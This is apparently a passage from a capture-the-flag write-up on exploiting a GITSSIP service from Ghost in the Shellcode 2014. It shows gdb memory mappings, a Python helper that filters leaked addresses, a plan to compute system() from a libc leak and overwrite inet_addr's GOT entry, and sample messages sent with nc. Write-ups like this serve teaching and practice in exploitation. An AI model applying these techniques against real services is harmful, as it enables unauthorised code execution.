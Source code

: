 ```bash
(gdb) info proc mappings 
...
0x7ff062165000     0x7ff062169000     0x4000        0x0 
0x7ff062169000     0x7ff062324000   0x1bb000        0x0 /lib/x86_64-linux-gnu/libc-2.19.so
0x7ff062324000     0x7ff062524000   0x200000   0x1bb000 /lib/x86_64-linux-gnu/libc-2.19.so
0x7ff062524000     0x7ff062528000     0x4000   0x1bb000 /lib/x86_64-linux-gnu/libc-2.19.so
0x7ff062528000     0x7ff06252a000     0x2000   0x1bf000 /lib/x86_64-linux-gnu/libc-2.19.so
0x7ff06252a000     0x7ff06252f000     0x5000        0x0 
0x7ff06252f000     0x7ff062545000    0x16000        0x0 /lib/x86_64-linux-gnu/libgcc_s.so.1
0x7ff062545000     0x7ff062744000   0x1ff000    0x16000 /lib/x86_64-linux-gnu/libgcc_s.so.1
0x7ff062744000     0x7ff062745000     0x1000    0x15000 /lib/x86_64-linux-gnu/libgcc_s.so.1
...
```
Let's write a small python script to make our job easier:

```python
import sys

#use like: python %file_with_stack_dump 0x_low_edge 0x_high_edge
candidates = []

with open(sys.argv[1]) as addresses:
	allNums = addresses.read()
	allNums = allNums.split()
	low = int(sys.argv[2], 16)
	high = int(sys.argv[3], 16)
	for i in allNums:
		try:
			num = int(i, 16)
			if ( low <= num and high >= num):
				candidates.append(hex(num))
		except:
			continue

print("*" * 50)
for i in candidates:
	print(i[:-1])
```

We leak the only one address, it's **__libc_start_main+245** -> we can calculate the @system address. It's **-0x22fc95** on my system.

Let's choose a function which got.plt entry shall be rewritten:

Digging command handlers I stumbled upon an **inet_addr** call in INVITE handler. Spent five minutes to realize the format of messages:

```bash
(gdb) br inet_addr
Breakpoint 1 at 0x4019e0
(gdb) r
```

```bash
dog@ubuntu:~/ctf/ghostinshelcode2014$ nc localhost 5060
REGISTER x GITSSIP/0.1
To: x
From: x
Expires: 0
Common Name: x
Contact: x

INVITE sip:x@wecancontrolit GITSSIP/0.1
To: x
From: x
Via: x
Contact: x
```